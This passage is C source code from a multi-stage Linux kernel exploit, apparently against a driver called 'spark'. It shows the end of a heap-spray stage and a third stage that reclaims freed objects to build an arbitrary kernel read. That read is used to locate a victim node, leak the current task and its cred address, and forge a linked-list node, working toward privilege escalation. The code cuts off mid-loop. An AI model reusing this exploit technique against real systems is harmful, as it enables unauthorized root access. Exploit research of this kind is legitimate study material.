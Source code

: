 ```c
			}
		}
	}
	assert(victim_fd != -1);

	fprintf(stderr, "[S2] Victim fd = %d\n", victim_fd);
	*victim_fdp = victim_fd;
#undef STAGE2_SPRAY_NUM
#undef STAGE2_NUM_NODES
}

#define STAGE3_READ_NUM_CHILDREN 0x4142133703030303

static unsigned long stage3_read(struct reclaim_ctx *ctx, int fd, unsigned long addr)
{
	reclaim_free(ctx);
	// during read, we keep a special num_children so we can find ourselves
	reclaim_alloc(ctx, 1, STAGE3_READ_NUM_CHILDREN, 0, addr);

	struct spark_info info;
	get_info(fd, &info);
	return info.traversal_size;
}

static void stage3(struct reclaim_ctx *ctx, int fd, int *scratch_fds, unsigned long s1_dist_addr,
                   unsigned long s1_node_addr)
{
	char buf[0x80];

	fprintf(stderr, "[S3] Finding victim node\n");
	unsigned long victim_addr = 0;
	for (int i = 6000; i < 10000; i++)  {
		unsigned long addr = s1_node_addr + i*0x80;
		unsigned long value = stage3_read(ctx, fd, addr + 0x58);
		if (value == STAGE3_READ_NUM_CHILDREN) {
			victim_addr = addr;
			break;
		}
	}
	assert(victim_addr);
	fprintf(stderr, "[S3] Victim @ 0x%lx\n", victim_addr);

	fprintf(stderr, "[S3] Findings creds\n");
	unsigned long current = stage3_read(ctx, fd, victim_addr + 0x10); // state_lock.owner
	fprintf(stderr, "[S3] current = 0x%lx\n", current);
	unsigned long cred_addr = stage3_read(ctx, fd, current + 0xa90);
	fprintf(stderr, "[S3] cred @ 0x%lx\n", cred_addr);

	fprintf(stderr, "[S3] Crafting linkable node\n");
	memset(buf, 0, sizeof(buf));
	*(unsigned long *)(buf + 0x0) = 100000; // id
	*(unsigned int *)(buf + 0x8) = 1; // refcount
	*(unsigned int *)(buf + 0x30) = 0; // is_finalized
	*(unsigned long *)(buf + 0x60) = victim_addr + 0x60; // edges.next (empty list)
	*(unsigned long *)(buf + 0x68) = victim_addr + 0x68; // edges.prev (empty list)
	reclaim_free(ctx);
	reclaim_alloc_raw(ctx, buf);

	fprintf(stderr, "[S3] Building graph\n");
	int graph_fds[S1_DIST_NUM_NODES];
	for (int i = 0; i < S1_DIST_NUM_NODES-1; i++)
		graph_fds[i] = scratch_fds[i]; // avoid allocations, they mess stuff up
	for (int i = 1; i < S1_DIST_NUM_NODES-1; i++)
```